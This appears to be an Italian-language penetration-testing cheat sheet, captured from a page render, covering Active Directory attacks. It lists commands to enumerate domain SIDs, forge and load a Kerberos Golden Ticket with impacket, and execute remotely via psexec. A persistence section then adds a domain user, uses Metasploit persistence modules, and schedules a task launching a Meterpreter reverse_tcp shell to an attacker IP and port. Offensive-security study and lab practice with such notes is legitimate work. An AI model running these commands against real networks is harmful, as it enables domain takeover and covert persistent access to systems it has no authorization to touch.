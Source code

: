 ```bash
impacket-lookupsid <DOMAIN>/<user>@<machine.domain> -domain-sids
```

- Possiamo creare il nostro Golden Ticket

```bash
impacket-ticketer -aesKey <aesKey> -domain-sid <sid> -domain <DOMAIN> administrator
```

- Lo carichiamo in memoria

```bash
export KRB5CCNAME=./administrator.ccache
```

- Ci connettiamo al target usando il Golden Ticket con psexec

```bash
impacket-psexec -k -no-pass <machine>.<domain>
```

---

## Maintaining Access

1. Creare un account con privilegi (la via privilegiata)

```bash
net user /add <NEW_USER_NAME> <PASSWORD> /domain
```

2. Usare i moduli Metasploit dedicati

```bash
run persistence -h

exploit/windows/local/persistence

exploit/windows/local/registry_persistence
```

3. Creare un scheduled task, o con Metasploit o manualmente

*Task che eseguirà un payload Meterpreter su base pianificata*

```bash
run post/windows/manage/scheduleme
```

Esempio nella sessione meterpreter (da testare)

```bash
meterpreter > run scheduleme -p windows/x64/meterpreter/reverse_tcp -h <IP> -P <PORT>
```

*Abusare di un task pianificato già esistente* 

```bash
run schtaskabuse
```
